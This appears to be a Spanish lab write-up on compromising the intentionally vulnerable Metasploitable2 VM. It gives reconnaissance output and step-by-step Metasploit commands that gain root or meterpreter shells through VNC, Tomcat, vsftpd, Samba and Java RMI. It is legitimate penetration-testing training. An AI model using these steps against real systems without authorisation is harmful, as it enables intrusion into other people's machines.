

# Cómo he vulnerando la máquina metasploitable2

### Obtengo la IP de la máquina a atacar usando netdiscover:

```
 Currently scanning: 192.168.61.0/16   |   Screen View: Unique Hosts                                                                                        
                                                                                                                                                            
 7 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 420                                                                                            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     f8:0d:a9:97:b3:e0      3     180  Zyxel Communications Corporation                                                                         
 192.168.1.196   1c:ce:51:b7:b5:ac      1      60  Unknown vendor                                                                                           
 192.168.1.253   08:00:27:f1:2e:1c      1      60  PCS Systemtechnik GmbH                                                                                   
 192.168.1.153   d8:5e:d3:95:80:15      1      60  GIGA-BYTE TECHNOLOGY CO.,LTD.                                                                            
 192.168.1.251   b6:73:e4:26:95:b6      1      60  Unknown vendor 

```

La IP de la máquina virtual es: `192.168.1.253`


### Seguidamente hice un nmap -sV en busqueda de puertos abiertos junto al servicio que usa y su versión:

```
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.1.253      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 11:20 CEST
Nmap scan report for 192.168.1.253
Host is up (0.00083s latency).
Not shown: 977 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
```

Como resultado obtuve una interesante diversidad de puertos y servicios potencialmente vulnerables, aunque de primeras me interesó el servicio `VNC` alojado en el puerto `5900`

### Vulnerando el servicio VNC del puerto 5900:

> VNC es un sistema de software libre que permite la conexión remota y el control de un ordenador a través de la red


- Accedo a `msfconsole`
- Uso el módulo: `use auxiliary/scanner/vnc/vnc_login`
- Establezco la IP de la máquina atacada `set RHOSTS 192.168.1.253` y ejecuto el exploit usando `run`
- Obteniendo como resultado la contraseña de acceso al servicio VNC
```
msf6 auxiliary(scanner/vnc/vnc_login) > run
[*] 192.168.1.253:5900    - 192.168.1.253:5900 - Starting VNC login sweep
[!] 192.168.1.253:5900    - No active DB -- Credential data will not be saved!
[+] 192.168.1.253:5900    - 192.168.1.253:5900 - Login Successful: :password
[*] 192.168.1.253:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
- Seguidamente accedo al servicio de VNC con la contraseña `password` y obtengo el acceso remoto al usuario root de la máquina atacada


### Vulnerando el servicio Apache Tomcat del puerto 8180:

> Apache Tomcat es un programa que permite ejecutar páginas web hechas con Java. Funciona como un servidor que recibe las peticiones de los usuarios y les muestra el contenido.

- Primero accedí al servidor web `http://192.168.1.253:8180/` pero solo me encontré con el portal por defecto de Tomcat
- Después probé con `msfconsole`
- Uso el exploit: `use exploit/multi/http/tomcat_mgr_upload`
- Establezco la IP de la máquina atacada `set RHOST 192.168.1.253` y el puerto `set RPORT 8180`
- Configuro el usuario y contraseña con la que intentará hacer el exploit `set HttpUsername tomcat` `set HttpPassword tomcat` y lo inicio con `run`
- Obteniendo como resultado una consola de meterpreter directa a la máquina atacada


  
### Vulnerando el servicio FTP del puerto 21:

> FTP (File Transfer Protocol) es un protocolo que se usa para transferir archivos entre ordenadores a través de una red. Usa la versión vsftpd (Very Secure FTP Daemon), que es un programa de servidor FTP que permite a otros equipos conectarse a un servidor para subir o descargar archivos usando el protocolo FTP.

- Accedo a `msfconsole`
- Uso el exploit `use exploit/unix/ftp/vsftpd_234_backdoor`
- Establezo la ip de la máquina atacada `set RHOSTS 192.168.1.253` y lo ejecuto con `run`
- Obteniendo así el acceso a root


### Vulnerando el servicio Samba de los puetos 139 y 445:

> Samba es un programa que permite compartir archivos e impresoras entre computadoras con Linux y Windows. Usa el protocolo SMB/CIFS para comunicarse con equipos Windows.

- Accedo a `msfconsole`
- Uso el exploit `use exploit/multi/samba/usermap_script`
- Establezo la ip de la máquina atacada `set RHOSTS 192.168.1.253` y lo ejecuto con `run`
- Obteniendo así el acceso a root
  


### Vulnerando el servicio Java-RMI del puerto 1099:

> Java RMI (Remote Method Invocation) es una tecnología que permite a un programa Java ejecutar métodos de objetos ubicados en otra computadora, como si fueran locales. Es una forma de comunicación remota entre aplicaciones Java.

- Accedo a `msfconsole`
- Uso el exploit `use exploit/multi/misc/java_rmi_server`
- Establezo la ip de la máquina atacada `set RHOSTS 192.168.1.253` y lo ejecuto con `run`
- Obteniendo una consola de meterpreter
  
